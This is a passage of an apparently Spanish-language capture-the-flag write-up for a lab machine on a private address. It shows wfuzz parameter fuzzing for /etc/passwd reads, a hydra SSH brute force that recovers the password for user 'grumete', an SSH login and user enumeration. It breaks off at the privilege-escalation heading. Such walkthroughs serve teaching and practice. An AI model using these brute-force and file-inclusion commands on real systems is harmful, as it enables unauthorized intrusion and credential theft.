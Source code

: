 ## Explotacion de Vulnerabilidades
### Vector de Ataque
Tenemos dos archivos php a los cuales realizamos fuzzing de parametros validos para ese archivo:
Realizamos fuerza bruta
```bash
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u "http://192.168.100.23/mapa.php?FUZZ=/etc/passwd" --hh=922 
wfuzz -c -t 200 -w /usr/share/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -u "http://192.168.100.23/tripulacion.php?FUZZ=/etc/passwd" --hh=979
```

**Nota** no encontramos ningun parametro valido
### Ejecucion del Ataque
En la ruta de:
```http
http://192.168.100.23/mapa.php
```

Tenemos un potencial usuario valido para el sistema:
```bash
Una nota arrugada se lee en la esquina del mapa...
"Ey **grumete** revisa la nota oculta que dejado en tu camarote..."
```

Procedemos a realizar un ataque de fuerza bruta por **ssh**, bajo el usuario **grumete**
```bash
# Comandos para explotación
hydra -l grumete -P /usr/share/wordlists/rockyou.txt -f -t 4 ssh://192.168.100.23
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
```

Obtenemnos las credenciales validas para este usuario:
```bash
[STATUS] 64.53 tries/min, 968 tries in 00:15h, 14343431 to do in 3704:24h, 4 active
[22][ssh] host: 192.168.100.23   login: grumete   password: 1234
```
### Intrusion
Nos conectamos por ssh
```bash
# Reverse shell o acceso inicial
ssh grumete@192.168.100.23 # 1234
```

---

## Escalada de Privilegios
### Enumeracion del Sistema
```bash
# Enumeracion de usuarios del sistema:
cat /etc/passwd | grep "sh"

root:x:0:0:root:/root:/bin/bash
capitan:x:1001:1001::/home/capitan:/bin/bash
grumete:x:1002:1002::/home/grumete:/bin/bash
```
### Explotacion de Privilegios
